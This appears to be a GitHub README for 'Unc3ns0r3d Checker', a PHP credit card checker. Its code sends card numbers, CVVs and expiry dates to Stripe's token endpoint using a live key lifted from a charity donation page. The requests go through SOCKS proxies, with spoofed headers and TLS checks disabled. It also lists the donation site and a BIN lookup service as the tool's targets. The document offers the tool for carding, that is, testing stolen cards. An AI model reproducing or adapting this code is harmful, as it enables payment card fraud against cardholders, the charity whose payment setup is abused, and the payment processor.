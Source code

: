 <a href="http://uncensored.vzpla.net/"><img src="https://i62.servimg.com/u/f62/12/98/31/84/logo10.jpg?v=3&s=200" title="Unc3ns0r3d Checker" alt="Unc3ns0r3d Checker"></a>

# ⛔Unc3ns0r3d-Checker⛔

> Language: EN (ENGLISH)

✔ Credit card 💳 checker, based on real donation systems and stripe. 


```php
// cURL Stripe Method by ⛔UJnc3ns0r3d⛔

$nombre = datosnombre();
$apellido = datosapellido();
$email = email($nombre);
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, 'https://api.stripe.com/v1/tokens');
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_PROXY, $proxy);
curl_setopt($ch, CURLOPT_PROXYTYPE, CURLPROXY_SOCKS5);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
   'Host: api.stripe.com',
'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:59.0) Gecko/20100101 Firefox/59.0',
'Accept: application/json',
'Referer: https://js.stripe.com/v3/controller-e5a3104782ffac207edc3af004b9574b.html',
'Content-Type: application/x-www-form-urlencoded',
'Connection: keep-alive'));

curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_POSTFIELDS, 'card[name]='.$nombre.'+'.$apellido.'&card[address_line1]=&card[address_city]=&card[address_zip]=10001&card[currency]=USD&card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&guid=2a88d519-e56f-467a-9c63-c361a277ff54&muid=3190efac-5abc-4dac-9a48-03367b5b0064&sid=300c2fa4-1b47-44d1-8dfa-e0eb6728f2c3&payment_user_agent=stripe.js%2Fb78d06c%3B+stripe-js-v3%2Fb78d06c&referrer=https%3A%2F%2Fsecure.avaaz.org%2Fdonate%2Fpub-iframe.php%2F%3Fcid%3D3116%26lang%3Des%26sourceUrl%3Dhttps%253A%252F%252Fsecure.avaaz.org%252Fes%252Fdonate%252F&key=pk_live_eT3tlxY6x7Nzg9eDNkMYz99F&pasted_fields=number');
```
###  SITES

- **Site Donation 1**
    - https://secure.avaaz.org/

- **Site API 1**
    - https://api.stripe.com/v1/tokens
    
- **Site BIN 1**
    - https://lookup.binlist.net/


### Files Include

- api.php

- index.php

- proxy.php
